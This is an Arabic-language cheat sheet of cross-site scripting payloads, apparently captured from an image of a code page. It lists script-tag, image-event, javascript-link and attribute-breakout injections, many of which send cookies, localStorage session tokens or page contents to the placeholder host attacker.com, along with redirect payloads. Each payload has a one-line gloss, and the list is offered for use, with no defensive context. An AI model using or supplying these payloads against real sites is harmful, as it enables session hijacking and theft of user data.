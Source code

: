 #### د. توسيع قائمة الحقن
- **المحاولات**:
  - أضف حقنًا إضافية (مثل `<iframe src="javascript:alert('XSS')">` أو `<div onclick="fetch('http://attacker.com/log?c='+document.cookie)">`).
  - جرب أحداث أخرى (مثل `onblur`، `ontoggle`) أو وسوم أخرى (مثل `<input>`، `<object>`).
  - اختبر سياقات DOM معقدة (مثل `eval(...)` أو `setTimeout(...)`).
- **كيف يعمل**:
  - يتم إنشاء قائمة موسعة تشمل كل المتغيرات الممكنة.
  - مثال: إضافة `<input type=text onfocus="fetch('http://attacker.com/log?c='+document.cookie)">` إلى القائمة.
- **متى يُستخدم؟**:
  - عند الحاجة لتغطية شاملة للسياقات.

---



1. حقن باستخدام وسوم HTML:
- <script>alert('XSS')</script>: ينفذ تنبيهًا عند العرض.
- <script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>: يرسل ملفات تعريف الارتباط.
- <script>document.location='http://attacker.com'</script>: يعيد توجيه المستخدم.
- <script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>: يرسل محتوى الصفحة.
- <script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>: يرسل رمز الجلسة.

2. حقن باستخدام وسوم صور أو أحداث:
- <img src=x onload="alert('XSS')">: ينفذ تنبيهًا عند تحميل الصورة.
- <img src=x onerror="fetch('http://attacker.com/log?c='+document.cookie)">: يرسل ملفات تعريف الارتباط.
- <img src=x onmouseover="fetch('http://attacker.com/log?d='+document.domain)">: يرسل النطاق عند تمرير المؤشر.
- <img src=x onfocus="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')">: يرسل رمز الجلسة عند التركيز.
- <img src=x onload="fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})">: يرسل محتوى الصفحة.

3. حقن باستخدام روابط JavaScript:
- <a href="javascript:alert('XSS')">Click</a>: ينفذ تنبيهًا عند النقر.
- <a href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a>: يرسل ملفات تعريف الارتباط عند النقر.
- <a href="javascript:document.location='http://attacker.com'">Click</a>: يعيد توجيه المستخدم.
- <a href="javascript:new Image().src='http://attacker.com/log?d='+document.domain">Click</a>: يرسل النطاق.
- <a href="javascript:fetch('http://attacker.com/log', {method: 'POST', body: localStorage.getItem('token')})">Click</a>: يرسل رمز الجلسة.

4. حقن داخل سمات أو JavaScript:
- " onfocus="alert('XSS'): ينفذ تنبيهًا في سمة.
- " onload="fetch('http://attacker.com/log?c='+document.cookie): يرسل ملفات تعريف الارتباط في سمة.
- ";alert('XSS');//: ينفذ تنبيهًا في سياق JavaScript.
- ";fetch('http://attacker.com/log?c='+document.cookie);//: يرسل ملفات تعريف الارتباط في JavaScript.
- " onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token'): يرسل رمز الجلسة في سمة.
